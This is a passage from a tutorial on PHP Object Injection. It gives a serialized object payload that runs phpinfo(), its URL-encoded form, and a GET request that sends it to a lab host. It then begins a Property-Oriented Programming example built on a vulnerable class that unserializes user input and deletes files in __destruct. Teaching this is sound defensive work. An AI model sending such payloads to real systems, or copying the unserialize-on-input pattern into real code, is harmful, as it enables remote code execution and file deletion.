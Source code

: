 This results in the following serialized string:

```php
O:13:"InsecureClass":1:{s:19:"InsecureClasshook";s:10:"phpinfo();";}
```

After URL encoding, our final payload appears as:

```http
O%3A13%3A%22InsecureClass%22%3A1%3A%7Bs%3A19%3A%22%00InsecureClass%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
```

Now, we can append our payload as a data query string value:

```http
GET /auth_check.php?data=O%3A13%3A%22InsecureClas… HTTP/1.0
Host: vuln.lab
Connection: close
```

As a result, the script will execute our payload command and return the output of `phpinfo()`. An essential point to remember in PHP serialization is that the method itself is not serialized and saved. Instead, only the class's name and its properties are serialized.

Please note that the payload has been shortened for readability, but in real-world scenarios, attackers may leverage more complex and malicious payloads to exploit PHP Object Injection vulnerabilities fully

### **Exploring Property-Oriented Programming (POP)**

Property-Oriented Programming (POP) is a powerful technique that enables the creation of POP chains. These chains grant control over all the properties of a deserialized object. In POP chains, magic methods serve as the initial "gadget" – code snippets borrowed from the codebase. These gadgets can then be linked together to achieve a specific goal, often involving code execution.

Let's illustrate this concept with a basic example. Suppose we encounter vulnerable code that implements the `__destruct()` magic method within our library, like this:

```php
class LoggerIO extends IO
{
    private $filename = "log.txt";
    # ...some PHP code... #
    public function __destruct(){
        $this->removeFile($this->fn);
    }
    public function removeFile($fn){
        $this->destroy($fn);
    }
}
# ...some PHP code... #
$user_data = unserialize($_GET['data']);
```

In this code, we define a class named `LoggerIO`, which inherits from a parent class `IO`. It also implements the magic method `__destruct()`, which internally calls the `removeFile()` method. Additionally, it sets the `filename` property to a predefined string, "log.txt." To grasp the vulnerability's impact, let's inspect the `IO` class:
